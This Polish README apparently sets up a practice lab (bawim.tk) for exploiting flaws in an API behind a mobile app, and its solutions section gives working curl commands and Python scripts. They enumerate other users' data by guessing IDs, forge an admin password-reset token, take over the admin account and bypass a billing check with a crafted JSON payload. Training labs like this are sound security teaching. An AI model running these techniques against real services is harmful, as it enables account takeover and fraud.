 # bawim
## Analiza oraz wykorzystanie podatności w zapytaniach HTTP pomiędzy aplikacją mobilną i API
Instalacja nie jest wymagana, API znajduje się pod adresem https://bawim.tk.  
Do wysyłania zapytań najlepiej użyć narzędzia curl lub serwisu https://postman.co.

## Zadania
[przykładowe] 0. Znajdź wersję aplikacji.  
curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/get_app_version

1. Znajdź ID konta 'admin', a następnie klucz przypisany do konta.
2. Przy użyciu znalezionego klucza wypisz szczegółowe informacje o koncie 'admin'.
3. Zresetuj hasło admina, znając kod funkcji weryfikującej token.  
![alt text](https://github.com/matih123/bawim/blob/master/verify.png)  
4. Zaloguj się na konto admina (podaj id sesji).  
5. Znajdź użytkownika, który ma na koncie $1.000.000.  
podpowiedź: napisz prosty skrypt np. w pythonie (moduł requests).  
![alt text](https://github.com/matih123/bawim/blob/master/requests.png)  
6. Ustaw typ konta na premium dowolnemu użytkownikowi.  
podpowiedź: https://youtu.be/MpeaSNERwQA.

## Lista endpointów API

Wszystkie endpointy działają w oparciu o metodę POST oraz wymagają uwierzytelnienia kluczem globalnym (-d key=Re2LPGUMEKa34ik1uhHOBMoc). 

* https://bawim.tk/get_app_version  
parametry: key   
* https://bawim.tk/user/{user_id}  
parametry: key  
* https://bawim.tk/user_data/{user_id}  
parametry: key, user_key  
* https://bawim.tk/login/{username}  
parametry: key, password  
* https://bawim.tk/reset_password/{user_id}  
parametry: key  
* https://bawim.tk/set_password/{user_id}/{token}  
parametry: key, new_password  
* https://bawim.tk/set_premium_account/{user_id}  
parametry: key, billing_token, json - ten endpoint obsługuje dane wejściowe w formacie json (-d json={json_string})  

## Rozwiązania
<details>
  <summary>Pokaż</summary>
  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/login/admin  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/user/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d user_key=AnbgzkuaayRdT4HIab8lV513 https://bawim.tk/user_data/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/reset_password/386  
  
  ```python
  # Funkcja generujaca token yKW@n3UoT5n@xU5n@xUu.s
  def generate():
    plaintext = ('386' + 'admin' + 'admin@bawim.tk')[::-1]
    token = ''
    alphabet = string.ascii_letters + string.digits + '@.'
    sbox = '2k8PseIuF.YTWUovx6BqbnOyQ@5dtERZKMc3iwg7jLN40lzpJmrHAShVaf1XCG9D'

    for char in plaintext:
        token += sbox[(alphabet.index(char) + 13) % len(alphabet)]

    return token
  ```
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d new_password=<wpisz_nowe_hasło_admina> https://bawim.tk/set_password/386/yKW@n3UoT5n@xU5n@xUu.s
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d password=<wpisz_nowe_hasło_admina> https://bawim.tk/login/admin
  
  ```python
   # Znajdywanie użytkownika, który ma na koncie $1.000.000
  import requests, json

  i=0
  while True:
      text = requests.post(f'https://bawim.tk/user/{i}', data={"key": "Re2LPGUMEKa34ik1uhHOBMoc"}).text
      json_data = json.loads(text)
      user_key = json_data['user_key']

      text = requests.post(f'https://bawim.tk/user_data/{i}', data={"key": "Re2LPGUMEKa34ik1uhHOBMoc", "user_key": user_key}).text
      json_data = json.loads(text)
      money = json_data['money_amount']
      username = json_data['username']
      print(username, money)

      if(money == "1000000"): break
      i+=1
 
```
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d json={\"billing_token\":[]} http://bawim.tk/set_premium_account/200  
  
</details>
